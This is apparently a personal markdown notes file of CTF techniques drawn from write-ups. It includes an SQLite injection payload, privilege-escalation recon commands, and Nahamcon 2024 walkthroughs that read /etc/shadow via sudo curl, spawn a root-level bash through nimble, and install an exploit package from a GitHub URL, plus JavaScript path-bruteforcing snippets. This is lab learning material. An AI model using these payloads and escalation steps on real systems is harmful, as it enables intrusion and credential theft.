 # This is a file i'll include things i didn't know and or find after reading some write-ups

## apps


- https://play.google.com/store/apps/details?id=com.arara.q


## sql injections

- ' || (SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'))--


## Privilege Escalation

### cat .bash_history

This might show what someone has already done.
Maybe shows passwords from sshpass.

### cat /etc/passwd | grep sh

This might show some other users, and we grep to what users have shells.

### sudo -l

shows what sudo accesses a users have

#### Nahamcon-2024/curly_fries challenge

For this challenge we logged in as user:userpass with ssh and found access to the fry users directory, including its history file, and found the fry user's password, making us able to switch to the fry user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-curlly-fries-sudo-l.png)

This shows the user fry can execute a certain curl command as root without the need for a password.
Using `sudo curl 127.0.0.1:8000/health-check file:///etc/shadow`.
Then we can crack the hashes of the machine and pawn it.

See https://github.com/LazyTitan33/CTF-Writeups/blob/main/Nahamcon-2024/Misc/Curly_Fries.md

#### Nahamcon-2024/jack_be part 1

For this challenge we logged in as user:userpass with ssh.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be.png)

This shows the user jack can run a use nim run as root without a password.
So we create a nim project, and file that executes commands.

```bash
nimble init .

echo '#main.nim

import osproc

proc main() =
    let command = "/bin/bash"
    let result = execCmd(command)
    echo result

when isMainModule:
    main()'>./src/main.nim

chmod 777 .
nimble build
sudo -u jack /usr/bin/nimble run
```

And where in jack

#### Nahamcon-2024/jack_be part 2

In part 1 we logged in to another user.

![sudo-l-picture](./pictures_for_extra/nahamcon-2024-Jack-Be2.png)

From here we can continue with ```sudo -l``` and we can see we can use ```sudo nimble install *``` without a password and can continue escalating our privilege with package you made yourself.

```bash
sudo -l
sudo -u root /urs/bin/nimble install https://github.com/ThorD125/nim-exploit-lib
```

See https://game0v3r.vercel.app/blog/nahamconctf-miscellaneous

## extra s

Very specific case but still interesting.

### Make Self Extracting Sccript

If there is a file,
Including the hex data of the file to extract,
The following command can be used to write it to a file:
```tail -n 75 self_extractor > result```

### Iframe bruteforcing

```javascript
for (let index=0; index < 15; index++ ) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    document.write(`${index}: ${url}`);
    document.write(`<iframe sandbox style="width: 100%" src="${url}"></iframe>`);
}```

### Fetch Enumerating

```javascript
for (let index = 0; index < 200; index++) {
    const url = `${window.location.href}/pathtobruteforce/${index}`;
    await fetch(url).then(r => {
        if(r.status!=404) console.log(url);
    });
}(
```

### Curl Enumerating

- curl --silent --fail "https://example.com/[0-10]" -o "out/post_#1.txt" -s -w '%{url} %{http_code}\n

### Kerberos, dns, ldap, msrpc notes

Kerberos protocol uses port 88(tcp and udp),
so doing a nmap for port 88 could expose the domain controller

Dns runs on port 53 (udp default, when message is to big tcp)
nslookup {ip} returns a domain
nslookup {domain} returns an ip

ldap runs on port 389 or with over ssl over port 636
ad to ldap is like apache to http

ntlm hashes
